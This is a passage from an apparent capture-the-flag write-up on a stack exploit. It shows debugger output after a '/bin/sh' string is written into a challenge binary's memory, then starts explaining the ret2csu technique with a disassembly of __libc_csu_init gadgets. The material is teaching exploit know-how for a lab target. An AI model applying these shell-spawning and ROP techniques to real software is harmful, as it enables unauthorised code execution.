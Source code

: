 Continuing the process, let's enter the `/bin/sh` string:-

```r
[*] Switching to interactive mode
$ /bin/sh
```

Well, back to `gdb`:-

```r
gef➤  
gef➤  c
Continuing.

Thread 1 "chall" received signal SIGSEGV, Segmentation fault.
[ Legend: Modified register | Code | Heap | Stack | String ]


-- snip -- 

───────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall", stopped 0x7ffdd9adec00 in ?? (), reason: SIGSEGV
─────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7ffdd9adec00 → add DWORD PTR [rax], eax
──────────────────────────────────────────────────────────────────────────────────────────────────────────
0x00007ffdd9adec00 in ?? ()
gef➤  x/s 0x601150
0x601150:	"/bin/sh"
```

Great, we stored the string `"/bin/sh"` at the `0x601150`.
### The `ret2csu` technique

We are finally at the main part of this blog post, this is where I will explain the technique very thoroughly, so be sure to pay attention. But, it is time for some code analysis of the gadgets we are going to use:-

```r
gef➤  disas __libc_csu_init
Dump of assembler code for function __libc_csu_init:
   
   -- snip -- 

   0x0000000000400670 <+64>:	mov    rdx,r15
   0x0000000000400673 <+67>:	mov    rsi,r14
   0x0000000000400676 <+70>:	mov    edi,r13d
   0x0000000000400679 <+73>:	call   QWORD PTR [r12+rbx*8]
   0x000000000040067d <+77>:	add    rbx,0x1
   0x0000000000400681 <+81>:	cmp    rbp,rbx
   0x0000000000400684 <+84>:	jne    0x400670 <__libc_csu_init+64>
   0x0000000000400686 <+86>:	add    rsp,0x8
   0x000000000040068a <+90>:	pop    rbx
   0x000000000040068b <+91>:	pop    rbp
   0x000000000040068c <+92>:	pop    r12
   0x000000000040068e <+94>:	pop    r13
   0x0000000000400690 <+96>:	pop    r14
   0x0000000000400692 <+98>:	pop    r15
   0x0000000000400694 <+100>:	ret    
End of assembler dump.
```

